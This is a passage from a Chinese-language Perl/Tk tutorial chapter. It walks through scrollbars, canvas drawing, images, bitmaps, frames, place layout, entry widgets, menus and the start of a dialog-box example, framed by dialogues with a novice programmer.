新手程序员出现了，说：“使用列表框来展示我希望用户选择的项目是个好主意，但那个列表现在增加到了200个项目，我没办法把它们都放进一个列表框里。”“没问题，”你说，“只需给列表框添加一个滚动条。”

你可以使用**Tk**滚动条部件来控制其他部件的操作。作为示例，我将在列表框中使用滚动条。假设你有一个列表框，其中的项目太多，无法一次全部显示，就像本例中的**$listbox1**一样：

```
use Tk;

my $main = MainWindow->new;
my $listbox1 = $main->Listbox(-width => 25,
    -height => 5);
$listbox1->insert('end', "Apples", "Blueberries",
    "Bananas", "Kiwis", "Mangoes", "Oranges",
    "Pears", "Pineapples");
```

在这里，你可以将滚动条连接到列表框，这样用户就可以滚动列表，而整个列表不必同时可见。要将垂直滚动条连接到列表框，请使用以下代码：

```
use Tk;

my $main = MainWindow->new;
my $listbox1 = $main->Listbox(-width => 25,
    -height => 5);
$listbox1->insert('end', "Apples", "Blueberries",
    "Bananas", "Kiwis", "Mangoes", "Oranges",
    "Pears", "Pineapples");
my $scroll1 = $main->Scrollbar(-command => ['yview', $listbox1]);
$listbox1->configure(-yscrollcommand => ['set', $scroll1]);
```

创建滚动条时可以使用的选项有：

- -activebackground
- -activerelief
- -background
- -borderwidth
- -command
- -cursor
- -elementborderwidth
- -highlightbackground
- -highlightcolor
- -highlightthickness
- -jump
- -orient
- -relief
- -repeatdelay
- -repeatinterval
- -takefocus
- -troughcolor
- -width

现在，当用户移动滚动条中的滚动框（也称为滑块）时，列表框也会随之滚动。我可以将列表框和滚动条打包到主窗口中，如下所示：

```
use Tk;

my $main = MainWindow->new;
my $listbox1 = $main->Listbox(-width => 25,
    -height => 5);
$listbox1->insert('end', "Apples", "Blueberries",
    "Bananas", "Kiwis", "Mangoes", "Oranges",
    "Pears", "Pineapples");

my $scroll1 = $main->Scrollbar(-command => ['yview', $listbox1]);

$listbox1->configure(-yscrollcommand => ['set', $scroll1]);
$listbox1->pack(-side => 'left', -fill => 'both');
$scroll1->pack(-side => 'right', -fill => 'y');

MainLoop;
```



**图15.9** 使用**Tk滚动条部件**。

图15.9显示了结果。当用户滚动滚动条时，列表框中的项目会随之滚动。

另请参阅本章后面的“使用**Scrolled**构造器滚动部件”主题，了解为部件添加滚动条的简便方法。

## 使用画布部件

> “我以为图形用户界面就是关于使用图形的。到目前为止，我们所做的只是显示文本，”新手程序员说。
> “如果你想绘制一些东西，可以使用画布部件，”你说。
> “那是如何工作的？”新手程序员问。

你可以使用**Tk**画布部件来绘制图形图像（尽管从技术上讲，在GUI中，你显示的所有内容，包括文本，都被视为图形）。该部件包含绘制椭圆、矩形、线条、多边形等的方法。

我将在这里创建一个示例。首先，我将创建一个具有特定高度和宽度（以像素为单位）的画布：

```
use Tk;
$main = MainWindow->new;
$canvas1 = $main->Canvas('-width' => 400,
    -height => 200
)->pack;
```

创建画布时可以指定的选项有：

- -background
- -borderwidth
- -closeenough
- -confine
- -cursor
- -height

- -highlightbackground
- -highlightcolor
- -highlightthickness
- -insertbackground
- -insertborderwidth
- -insertofftime
- -insertontime
- -insertwidth
- -relief
- -scrollregion
- -selectbackground
- -selectborderwidth
- -selectforeground
- -takefocus
- -xscrollcommand
- -xscrollincrement
- -yscrollcommand
- -yscrollincrement
- -width

现在，我将通过给出椭圆外接矩形的坐标（*x1*、*y1*、*x2*、*y2*）并使用 **-fill** 选项将其填充为红色，来创建一个红色椭圆：

```perl
use Tk;
$main = MainWindow->new;

$canvas1 = $main->Canvas('-width' => 400,
    -height => 200
)->pack;
$canvas1->create ('oval', '50', '50', '160',
    '160', -fill => 'red');
```

我还可以创建一个蓝色矩形：

```perl
$canvas1->create ('oval', '50', '50', '160',
    '160', -fill => 'red');
$canvas1->create ('rectangle', '250', '50', '360',
    '160', -fill => 'blue');
```

## 第 15 章 Perl/Tk——窗口、按钮及其他

我将使用 **line** 方法来绘制一条直线：

```perl
$canvas1->create ('oval', '50', '50', '160',
    '160', -fill => 'red');
$canvas1->create ('rectangle', '250', '50', '360',
    '160', -fill => 'blue');
$canvas1->create ('line', '105', '105', '305',
    '105');
```

最后，我将用两个黑色的多边形来完成绘制：

```perl
$canvas1->create ('oval', '50', '50', '160',
    '160', -fill => 'red');
$canvas1->create ('rectangle', '250', '50', '360',
    '160', -fill => 'blue');
$canvas1->create ('line', '105', '105', '305',
    '105');
$canvas1->create ('polygon', '85', '105', '105',
    '85', '125', '105', '105', '125', '85', '105',
    -fill => 'black');
$canvas1->create ('polygon', '285', '105', '305',
    '85', '325', '105', '305', '125', '285', '105',
    -fill => 'black');
```

```perl
MainLoop;
```

图 15.10 展示了上述代码的运行结果。请注意，除了绘制自定义图形外，你还可以显示图像，具体内容将在下一主题中介绍。



**图 15.10** 显示 **Tk** 画布部件。

## 显示图像

你观察了一会儿新手程序员的工作，然后问道："你在做什么，NP？""从现在起，所有程序的顶部都要显示大老板的肖像，所以我正在用 **Tk** 画布部件的 **line** 方法画 BB 的画像。不过花了好长时间了。"你着迷地看了一会儿，然后问道："为什么不直接从 GIF 文件中显示 BB 的图像呢？"新手吃了一惊，"还能这样做？"

你可以使用 **Photo** 方法在 **Tk** 中创建图像对象，然后在画布中显示该图像对象中的图像。在这个示例中，我将显示保存在图像文件 image.gif 中的图像。

首先，我将创建一个画布部件，并以像素为单位为其指定高度和宽度：

```perl
use Tk;

my $main = MainWindow->new;

$canvas = $main->Canvas('-width' => 330,
    -height => 90);
```

接下来，我将使用 **Photo** 方法并配合 **-file** 选项来指定文件名，从图像文件 image.gif 创建一个图像对象 **image1**：

```perl
use Tk;

my $main = MainWindow->new;

$canvas = $main->Canvas('-width' => 330,
    -height => 90);
$main->Photo('image1',
    -file => 'image.gif');
```

上述代码创建了新的图像对象 **image1**。我可以使用 **createImage** 方法将此图像添加到画布部件中。你可以向 **createImage** 方法传递希望在画布中显示图像的位置。默认情况下，该位置对应图像的中心，但你可以使用 **-anchor** 标签来更改它，该标签接受罗盘方向，如 **ne**、**sw**、**e** 等（默认值为 **center**）。

在这个示例中，我将通过设置 **-anchor** 选项为 **nw**，来指定画布中的 (0, 0)（画布的左上角）对应图像的左上角，然后通过设置 **-image** 选项为新的图像对象 **image1** 来显示图像：

```perl
use Tk;

my $main = MainWindow->new;

$canvas = $main->Canvas('-width' => 330,
    -height => 90);
$main->Photo('image1',
    -file => 'image.gif');
$canvas->createImage(0, 0,
    -anchor => 'nw',
    -image => image1);
```

剩下的就是 **pack** 画布并进入主事件循环：

```perl
use Tk;

my $main = MainWindow->new;

$canvas = $main->Canvas('-width' => 330,
    -height => 90);
$main->Photo('image1',
    -file => 'image.gif');
$canvas->createImage(0, 0,
    -anchor => 'nw',
    -image => image1);
$canvas->pack;

MainLoop;
```

就是这样。现在图像已经显示出来了，如图 15.11 所示。


**图 15.11** 在画布中显示图像。

## 显示位图

**Tk** 自带了许多内置位图，你可以通过将它们放置在支持 **-bitmap** 选项的部件（如标签部件）中来查看它们。以下示例正是如此——请注意内置位图的名称：

```perl
use Tk;

my $main = MainWindow->new;

$main->Label(-bitmap => 'error')->pack;
$main->Label(-bitmap => 'gray12')->pack;
$main->Label(-bitmap => 'gray25')->pack;
$main->Label(-bitmap => 'gray50')->pack;
$main->Label(-bitmap => 'gray75')->pack;
$main->Label(-bitmap => 'hourglass')->pack;
$main->Label(-bitmap => 'info')->pack;
$main->Label(-bitmap => 'question')->pack;
$main->Label(-bitmap => 'questhead')->pack;
$main->Label(-bitmap => 'warning')->pack;

MainLoop;
```

图 15.12 展示了上述代码的运行结果，你可以看到内置的 **Tk** 位图。这些位图适合与支持 **-bitmap** 选项的部件一起使用，如标签和按钮部件。

> **提示：** 你还可以使用部件的 **Bitmap** 方法创建自定义位图，只要传递给它的数据符合 X11 位图规范即可。



**图 15.12** 显示内置的 **Tk** 位图。

## 使用框架排列部件

新手程序员走过来说："我怎么也习惯不了 **Tk** 里的这套打包机制——部件总是堆叠在一起，看起来全都是纵向排列的。""你可以自定义，"你说，"只要把部件打包到框架里就行了。""什么是框架？"新手问道。"它是一种可以容纳其他部件的部件，"你回答道。

假设你想在窗口的四周显示 **Tk** 按钮。用标准的打包方式是做不到的，因为即使你为按钮指定 **-side = 'right'** 和 **-side = 'left'**，**pack** 最多也只能将按钮放置在窗口的左侧和右侧，而无法在顶部或底部水平排列多个按钮（不过可以参考下一主题中的 **place** 方法）。但是，如果你将部件放入*框架*中，然后对这些*框架*进行 **pack**，就能对窗口的布局进行更精细的控制。

> **提示：** 在 **Tk** *原生*环境中，你可以同时打包多个部件，使用 **-side = 'left'** 等选项来轻松创建水平排列的部件行，但在 **Tk** 的 Perl 移植版本中无法这样做，因为你不能向 **pack** 传递部件列表。

你可以使用部件的 **Frame** 方法来创建框架，如下所示：

```perl
my $frame = $main->Frame;
```

你可以将框架本身当作窗口来对待，并在框架内部打包其他部件，如下所示（在这个示例中，我向框架中添加了两个按钮）：

```perl
my $frame = $main->Frame;

$frame->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame->Button(-text => 'Click Me!')->pack(-side => 'right');
```

现在我将把框架付诸实践，创建前面描述的示例——一个在四周都有按钮的窗口。为此，我将创建一个框架，其中包含用于顶行的两个框架，每个内部框架各包含两个按钮。当我对外层框架进行 **pack** 时，所有四个按钮将水平排列在顶部一行。要在窗口的两侧添加按钮，我只需要使用一个包含两个按钮的框架，并将它们分别对齐到左侧和右侧。底部一行与顶部相同。这就是理论上的原理；以下是实际代码：

```perl
use Tk;

my $main = MainWindow->new;
my $frame1 = $main->Frame;
$frame1->pack;
```

```perl
my $frame2 = $frame1->Frame;
$frame2->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame2->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame2->pack(-side => 'left');

my $frame3 = $frame1->Frame;
$frame3->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame3->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame3->pack(-side => 'right');

my $frame4 = $main->Frame;
$frame4->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame4->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame4->pack(-fill => 'both');

my $frame5 = $main->Frame;
$frame5->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame5->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame5->pack(-fill => 'both');

my $frame6 = $main->Frame;
$frame6->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame6->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame6->pack(-fill => 'both');

my $frame7 = $main->Frame;
$frame7->pack;

my $frame8 = $frame7->Frame;
$frame8->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame8->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame8->pack(-side => 'left');

my $frame9 = $frame7->Frame;
$frame9->Button(-text => 'Click Me!')->pack(-side => 'left');
$frame9->Button(-text => 'Click Me!')->pack(-side => 'right');
$frame9->pack(-side => 'right');

MainLoop;
```

图 15.13 展示了结果。可以想象，使用框架（frames）可以发挥出相当大的创造性——但是，正如本例所示，它也可能很快变得复杂。一个更好的选择通常是使用 **place** 几何管理器来代替 **pack**。使用 **place**，你可以将小部件精确地放置在你想要的位置，正如下一个“直接解决方案”中所描述的。



图 15.13 使用框架来 **pack** 小部件。

## 使用 place 安排小部件

一位新手程序员给你打电话。“即使我使用了框架，我还是搞不定如何安排小部件，”这位新手抱怨道。“难道没有更好的方法吗？”“嗯，”你说，“你可以改用 **place** 函数来精确指定小部件的位置。”“哇！我马上过去，”新手说。

**place** 函数实现了一个与 **pack** 函数完全不同的几何管理器。使用 **place**，你可以精确指定小部件的放置位置。

然而需要注意的是，当你将小部件放置在特定位置，而用户调整窗口大小时，你有责任重新安排小部件以适应新的窗口尺寸（使用 **pack** 安排的小部件会自动重新排列）。

你可以使用 **-x** 和 **-y** 选项来指定小部件的实际 **x** 和 **y** 位置，使用 **Tk** 认可的任何度量方法，例如 `124` 表示 124 像素，或 `.2c` 表示 0.2 厘米。在下面的例子中，我将从左上角开始，以级联方式排列一系列按钮：

```
use Tk;

my $main = MainWindow->new;

$button1 = $main->Button(-text => 'Click Me!')->place(-x => 0, -y => 0);
$button1 = $main->Button(-text => 'Click Me!')->place(-x => 30, -y => 30);
$button1 = $main->Button(-text => 'Click Me!')->place(-x => 60, -y => 60);
$button1 = $main->Button(-text => 'Click Me!')->place(-x => 90, -y => 90);
$button1 = $main->Button(-text => 'Click Me!')->place(-x => 120,
    -y => 120);
$button1 = $main->Button(-text => 'Click Me!')->place(-x => 150,
    -y => 150);

MainLoop;
```



图 15.14 使用 **place** 安排小部件。

这就是全部内容。使用 **place**，我能够精确指定按钮的位置。图 15.14 展示了结果。如图所示，使用 **place** 可以按照你想要的方式安排小部件。

## 使用 Entry 小部件

“我对文本小部件很了解，”新手程序员说，“但这个 *entry* 小部件是什么？”“Entry 小部件是专门设计来处理单行文本的，”你说。“它们就像是简单的文本小部件。”

你可以使用 **Entry** 方法创建 entry 小部件。下面是一个使用该方法创建 entry 的例子：

```
use Tk;

my $main = MainWindow->new;
my $entry1 = $main->Entry->pack;
```

你可以使用其 **Get** 方法（不带参数）获取 entry 中的文本，并使用 **Insert** 方法向 entry 中插入文本。你向 **Insert** 方法传递一个索引，以指示你想要插入的文本和插入位置。你可以指定实际的字符位置（从 0 开始）作为索引，或使用特殊标记，如 **end**。这里，我将在 entry 中插入一些文本：

```
use Tk;

my $main = MainWindow->new;
my $entry1 = $main->Entry->pack;

$entry1->insert(
    0,
    'This is my entry.'
);

MainLoop;
```

图 15.15 展示了结果，你可以看到 entry 小部件中的文本（用户可以通过直接在 entry 小部件中键入来编辑文本）。另一方面，请注意小部件中的文本太长，无法一次性全部显示。下一个主题描述了一种为 entry 小部件和其他小部件添加滚动条的简便方法。

## 使用 Scrolled 构造器为小部件添加滚动条

**“该死，”**新手程序员说，**“我总是搞砸给小部件添加滚动条的过程。”“有个简便的方法，”**你说，**“使用 Scrolled 构造器。”**

**Tk** 的 Perl 移植版包含了 **Scrolled** 构造器（你使用构造器来创建对象——详见第 18 章），你可以用它轻松地为小部件添加滚动条。你只需将要创建的小部件类型传递给 **Scrolled**，并使用罗盘方向（**n, e, w,** 和 **s**）指定滚动条出现的位置即可。

下面是一个向之前的“直接解决方案”示例中添加带滚动条的 entry 小部件的例子：

```
use Tk;
my $main = MainWindow->new;

my $entry1 = $main->Entry->pack;
my $entry2 = $main->Scrolled(
    Entry,
    -relief => 'sunken',
    -scrollbars => 's'
)->pack;

$entry1->insert(
    0,
    'Here is some long text that you have to scroll to see.'
);
$entry2->insert(
    0,
    'Here is some long text that you have to scroll to see.'
);

MainLoop;
```

图 15.16 展示了结果。如图所示，新的 entry 小部件下方有一个滚动条，你可以使用滚动条来滚动文本。**Scrolled** 是 **Tk** 的一个有用的扩展，由 **Perl/Tk** 的创建者构想出来。


图 15.16 使用带滚动条的 entry 小部件。

| 相关解决方案： | 位于页码： |
| --- | --- |
| 创建构造器以初始化对象 | 777 |

## 使用菜单小部件

> “我有 70 个选项，分为 5 个类别供用户选择，”新手程序员说，“这确实需要很多复选按钮。”“确实如此，”你说，“所以你应该改用菜单。这正是菜单的用途——在用户需要之前隐藏大量选项。”

**Tk** 使用 **Menubutton** 函数支持菜单。为了演示其工作原理，我将创建一个包含两个菜单的菜单系统：文件（File）和编辑（Edit）。每个菜单将包含各自的菜单项。

首先，我将创建一个新窗口，并在窗口顶部放置一个框架作为菜单栏：

```
use Tk;

my $main = MainWindow->new();

$menubar = $main->Frame()->pack('-side' => 'top', '-fill' => 'x');
```

每个新菜单实际上是一个菜单按钮，点击时会展开显示相应的菜单。这里，我将创建一个文件菜单：

```
use Tk;

my $main = MainWindow->new();

$menubar = $main->Frame()->pack('-side' => 'top', '-fill' => 'x');
$filemenu = $menubar->Menubutton('-text' => 'File')->pack('-side' =>
'left');
```

你可以使用 **Command** 方法向菜单添加菜单项，通过 **-label** 选项传递菜单项的标题，通过 **-command** 选项传递要执行的实际命令。例如，在下面的代码中，我将向文件菜单添加一个“打开”项；当用户选择“打开”时，代码将在文件小部件中显示文本 "**You clicked open.**"：

```
use Tk;

my $main = MainWindow->new();

$menubar = $main->Frame()->pack('-side' => 'top', '-fill' => 'x');
$filemenu = $menubar->Menubutton('-text' => 'File')->pack('-side'
=> 'left');
$filemenu->command('-label' => 'Open', '-command' => sub
    {$text->delete('1.0', 'end');
     $text->insert('end', "You clicked open.");});
```

除了菜单项，你还可以添加菜单 *分隔符*。分隔符是用于将菜单项分隔成逻辑分组的细水平线。要创建分隔符，请使用 **Separator** 方法：

```
use Tk;

my $main = MainWindow->new();

$menubar = $main->Frame()->pack('-side' => 'top', '-fill' => 'x');
$filemenu = $menubar->Menubutton('-text' => 'File')->pack('-side'
=> 'left');
$filemenu->command('-label' => 'Open', '-command' => sub
    {$text->delete('1.0', 'end');
     $text->insert('end', "You clicked open.");});
$filemenu->separator();
```


现在，我将为 File 菜单再添加一个菜单项——一个 **Exit** 项（通常位于 File 菜单的底部），同时为 Edit 菜单也做类似的添加，如下所示：

```
use Tk;

my $main = MainWindow->new();

$menubar = $main->Frame()->pack('-side' => 'top', '-fill' => 'x');
$filemenu = $menubar->Menubutton('-text' => 'File')->pack('-side' => 'left');
$filemenu->command('-label' => 'Open', '-command' => sub
    {$text->delete('1.0', 'end');
    $text->insert('end', "You clicked open.");});
$filemenu->separator();
$filemenu->command('-label' => 'Exit', '-command' => sub {exit});
$editmenu = $menubar->Menubutton('-text' => 'Edit')->pack('-side' => 'left');
$editmenu->command('-label' => 'Search', '-command' => sub
    {$text->delete('1.0', 'end');
    $text->insert('end', "You clicked search.");});
$editmenu->command('-label' => 'Replace', '-command' => sub
    {$text->delete('1.0', 'end');
    $text->insert('end', "You clicked replace.");});

$text = $main->Text ('-width' => 40, '-height' => 3)->pack();

MainLoop;
```

就是这样。当用户打开一个菜单时，如图 15.17 所示，用户可以选择一个菜单项。当用户选择了一个菜单项时，代码会显示所选的项目，如图 15.18 所示。代码运行成功了！但请注意，你还可以对菜单做更多的事情，正如你将在下一个"即时解决方案"中看到的那样。



### 图 15.17 选择一个菜单项。



### 图 15.18 显示所选的菜单项。

### 即时解决方案

### 15. Perl/Tk——窗口、按钮及其他

## 使用级联菜单、复选按钮菜单、单选按钮菜单、菜单加速键等

编程设计主管走过来说："关于你的 **Tk** 程序——它太单调了！加点创新，放手去做吧！"你说："我可以添加级联菜单。""很好，"设计主管说。"我还可以在菜单中添加复选按钮，"你说。"很好，"设计主管说。"还有单选按钮，"你说。"很好，"设计主管说，"再加上菜单加速键。""好的，"设计主管说。"我甚至可以给菜单项设置颜色，"你说。"太棒了！"设计主管说，"我喜欢你的创意理念——开始动手吧！"

你确实可以为菜单添加级联菜单、复选按钮、单选按钮、加速键和颜色。我现在将编写一个示例来展示这一切是如何工作的。当被选中时，每个菜单项将只是向文本小部件发送一条消息，表明它被选中了。我将从创建一个新的 File 菜单开始：

```
use Tk;

my $main = MainWindow->new;
my $menubar = $main->Frame;
$menubar->pack(-fill => 'x');
my $filemenu = $menubar->Menubutton(-text => 'File');
```

接下来，我将为 File 菜单添加一个菜单项——比如 Open——并为其指定一个加速键 Ctrl+O。当用户按下 Ctrl+O 时，效果与用户直接调用 Open 菜单项完全相同。你可以使用 **-accelerator** 选项为菜单项添加加速键：

```
$filemenu->command(
    -label      => 'Open',
    -command    => sub {$text1->insert('1.0', "You chose open.\n")},
    -accelerator => 'Ctrl+O',
);
```

这段代码会在菜单项可见时在其右侧显示 Ctrl+O，这样用户就知道该菜单项的加速键是什么。然而，要实际使加速键生效，你必须将 Ctrl+O 绑定到你想要执行的代码：

```
$main->bind('<Control-o>' => sub {$text1->insert('1.0',
    "You chose open.\n")});
```

现在，我将添加两个级联菜单项，用于容纳复选按钮菜单项和单选按钮项。级联菜单项在右侧显示一个黑色三角形，当选中时，会打开一个充满项目的新子菜单。在此示例中，我将向 File 菜单添加两个新的级联菜单——Check buttons 和 Radio buttons：

```
$filemenu->cascade(-label => 'Check buttons');
$filemenu->cascade(-label => 'Radio buttons');
```

这段代码只是在菜单项上添加了小三角形。要实际创建一个我们可以使用的新菜单对象，我需要使用 **cget** 和 **entryconfigure**：

```
my $checkcascade = $filemenu->cget(-menu);
my $checkmenu = $checkcascade->Menu;
$filemenu->entryconfigure('Check buttons', -menu => $checkmenu);
```

现在，我有了一个与 Check buttons 菜单项对应的新菜单对象 **$checkmenu**，我可以使用 **checkbutton** 方法向该菜单添加复选按钮。在这个例子中，我将添加八个复选按钮：

```
$checkmenu->checkbutton(-label => 'Check 1', -variable => \$check1,
    -command => sub {$text1->insert('1.0', "You chose check 1.\n")});
$checkmenu->checkbutton(-label => 'Check 2', -variable => \$check2,
    -command => sub {$text1->insert('1.0', "You chose check 2.\n")});
$checkmenu->checkbutton(-label => 'Check 3', -variable => \$check3,
    -command => sub {$text1->insert('1.0', "You chose check 3.\n")});
$checkmenu->checkbutton(-label => 'Check 4', -variable => \$check4,
    -command => sub {$text1->insert('1.0', "You chose check 4.\n")});
$checkmenu->checkbutton(-label => 'Check 5', -variable => \$check5,
    -command => sub {$text1->insert('1.0', "You chose check 5.\n")});
$checkmenu->checkbutton(-label => 'Check 6', -variable => \$check6,
    -command => sub {$text1->insert('1.0', "You chose check 6.\n")});
$checkmenu->checkbutton(-label => 'Check 7', -variable => \$check7,
    -command => sub {$text1->insert('1.0', "You chose check 7.\n")});
$checkmenu->checkbutton(-label => 'Check 8', -variable => \$check8,
    -command => sub {$text1->insert('1.0', "You chose check 8.\n")});
```

上面的代码创建了一个包含八个复选按钮项的菜单，标题分别为 Check 1 到 Check 8。用户可以同时选择任意数量的项目，被选中的项目旁边会显示一个勾选标记。

还要注意，我为每个复选按钮项分配了不同的变量——**$check1** 到 **$check8**。这些变量的值将根据相应菜单项是否被选中而为真或假，你可以在代码中引用它们。

接下来，我将添加级联的单选按钮菜单对象 **$radiomenu**：

```
my $radiocascade = $filemenu->cget(-menu);
my $radiomenu = $radiocascade->Menu;
$filemenu->entryconfigure('Radio buttons', -menu => $radiomenu);
```

# 第 15 章 Perl/Tk——窗口、按钮及其他

我将向这个级联菜单添加八个单选按钮项。请注意，在这种情况下，要使单选按钮菜单项作为一个组协同工作，我必须为它们分配*相同*的变量。在这个例子中，我将创建两个单选按钮组，每组包含四个菜单项，并用菜单分隔符将它们分开，方式如下：

```
$radiomenu->radiobutton(-label => 'Radio 1', -variable => \$radio1,
    -command => sub {$text1->insert('1.0', "You chose radio 1.\n")});
$radiomenu->radiobutton(-label => 'Radio 2', -variable => \$radio1,
    -command => sub {$text1->insert('1.0', "You chose radio 2.\n")});
$radiomenu->radiobutton(-label => 'Radio 3', -variable => \$radio1,
    -command => sub {$text1->insert('1.0', "You chose radio 3.\n")});
$radiomenu->radiobutton(-label => 'Radio 4', -variable => \$radio1,
    -command => sub {$text1->insert('1.0', "You chose radio 4.\n")});
$radiomenu->separator;
$radiomenu->radiobutton(-label => 'Radio 5', -variable => \$radio2,
    -command => sub {$text1->insert('1.0', "You chose radio 5.\n")});
$radiomenu->radiobutton(-label => 'Radio 6', -variable => \$radio2,
    -command => sub {$text1->insert('1.0', "You chose radio 6.\n")});
$radiomenu->radiobutton(-label => 'Radio 7', -variable => \$radio2,
    -command => sub {$text1->insert('1.0', "You chose radio 7.\n")});
$radiomenu->radiobutton(-label => 'Radio 8', -variable => \$radio2,
    -command => sub {$text1->insert('1.0', "You chose radio 8.\n")}),
$radiomenu->separator;
```

此外，我将向 File 菜单添加一个 Exit 菜单项，因为 File 菜单应该包含该项：

```
$filemenu->command('-label' => 'Exit', '-command' => sub {exit});
```

File 菜单到此完成，所以我可以将其 **pack**：

```
$filemenu->pack(-side => 'left');
```

剩下的就是看看如何给菜单项设置背景色，为此我将创建一个新菜单——Edit 菜单。给菜单项设置背景色很容易，你只需使用 **-background** 选项，如下所示：

```
$editmenu = $menubar->Menubutton('-text' => 'Edit')->pack('-side' =>
'left');

$editmenu->command(-label => 'Search',
    -background => "red",
    -command => sub
    {$text1->delete('1.0', 'end');
     $text1->insert('end', "You chose search.");}
);
```

$editmenu->command(-label => 'Replace',
    -background => "orange",
    -command => sub
    {$text1->delete('1.0', 'end');
    $text1->insert('end', "You chose replace.");}
);

$editmenu->command(-label => 'Find',
    -background => "yellow",
    -command => sub
    {$text1->delete('1.0', 'end');
    $text1->insert('end', "You chose find.");}
);

就是这样——我只需**打包**Edit 菜单，添加菜单项将在其中显示文本的文本部件，然后进入 I/O 事件循环：

```
$editmenu->pack(-side => 'left');
$text1 = $main->Text;
$text1->pack(-fill => 'both');

MainLoop;
```

图 15.19 展示了该示例的运行效果。在图中，你可以看到带有快捷键 Ctrl+O 的 Open 菜单项。如果用户按下 Ctrl+O，文本部件将显示文本"You chose open"，就好像用户直接选择了 Open 菜单项一样。



图 15.19 带有快捷键的菜单项。

该示例还支持一个包含复选按钮项的级联菜单，如图 15.20 所示。用户可以选择或取消选择任意数量的项——你可以从图 15.20 中看到，这些项可以非排他性地选择。

不过，如果你看看图 15.21 所示的"Radio buttons"级联菜单，你会发现每个单选按钮组中只能选择一个项。使用这种单选按钮组可以让用户在一组选项中仅选择一个。

最后，如图 15.22 所示，Edit 菜单项具有彩色背景，这为你的程序增添了一点趣味（编程设计大师会为此感到自豪）。



图 15.20 带有复选按钮的菜单项。



图 15.21 带有单选按钮的菜单项。



图 15.22 带有彩色背景的菜单项。

## 使用对话框

> "话说，对话框怎么样？我能在 Perl/Tk 程序中使用吗？"新手程序员问道。"当然可以，"你说，"搬把椅子坐下吧。"

为了演示如何使用对话框，我将编写一个简短的示例。在这个示例中，当用户点击按钮时，代码将显示一个对话框。用户可以在对话框的输入部件中输入文本，如果用户点击 OK 按钮，程序将在主窗口的文本部件中显示输入的文本。

首先，我来创建一个新窗口：

```
use Tk;

$main = MainWindow->new();
```

接下来，我使用 **DialogBox** 方法创建一个对话框对象。在这个例子中，我将向对话框添加两个按钮——OK 和 Cancel：

```
$dialog = $main->DialogBox(
    -title => "Dialog box",
    -buttons => ["OK", "Cancel"]
);
```

我还会向对话框添加一个输入部件，以便用户可以在对话框中输入文本。要向对话框添加这样的部件，你需要使用对话框对象的 **Add** 方法：

```
$entry = $dialog->add(
    "Entry", -width => 40
)->pack;
```

请注意，我已经将输入部件存储在 **$entry** 中。如果我想在显示对话框之前向输入部件中放置一些文本，我可以使用 **$entry** 对象的 **insert** 方法来实现，就像使用任何其他输入部件一样（参见本章前面"使用输入部件"主题）。

此外，我需要某种方式来按需显示对话框，因此我将添加一个按钮来调用名为 **show** 的子程序以显示对话框：

```
$main->Button(
    -text => "Show dialog box",
    -command => \&show
)->pack;
```

为了完成主窗口，我将添加一个文本部件来显示用户在对话框中输入的文本：

```
$text1 = $main->Text (
    -width => 40,
    -height => 2
)->pack();

MainLoop;
```

